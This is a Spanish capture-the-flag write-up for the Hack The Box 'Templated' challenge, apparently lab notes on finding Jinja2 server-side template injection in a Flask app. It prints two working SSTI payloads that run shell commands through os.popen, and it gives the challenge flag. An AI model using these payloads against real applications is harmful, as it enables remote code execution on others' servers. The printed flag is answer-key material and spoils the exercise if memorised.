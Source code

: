 ```yaml
---
title: Templated HTB
date: 2023-04-19
type: challenge
author: naibu3
---
```


#web #flask #jinja2

# Templated HTB

Es uno de los challenges de la sección de *web*.

## Reconocimiento

Al acceder por el navegador, vemos una página muy simple. Como podemos leer está creada en *flask/jinja2* ([[flask 1]]).

Si probamos a acceder a un recurso, por ejemplo a `http://ip/hola`, veremos que se muestra `'hola'` en la página. Si probamos con `{{7*7}}`, se renderiza un `49`. Por tanto podemos suponer que existe una vulnerabilidad de [[SSTI]].

## Explotación

Para explotar dicha vuln tan solo debemos hacer una inyección de código [[python 1]] como la siguiente:

```url
http://ip/{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
```

Lo que nos listará los recursos del directorio actual, done vemos un archivo `flag.txt`. Así que los listamos con otra inyección:

```url
http://ip/{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat flag.txt").read()}}{%endif%}{% endfor %}
```

Y ya tenemos la flag (`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`). Enhorabuena! Has completado el reto!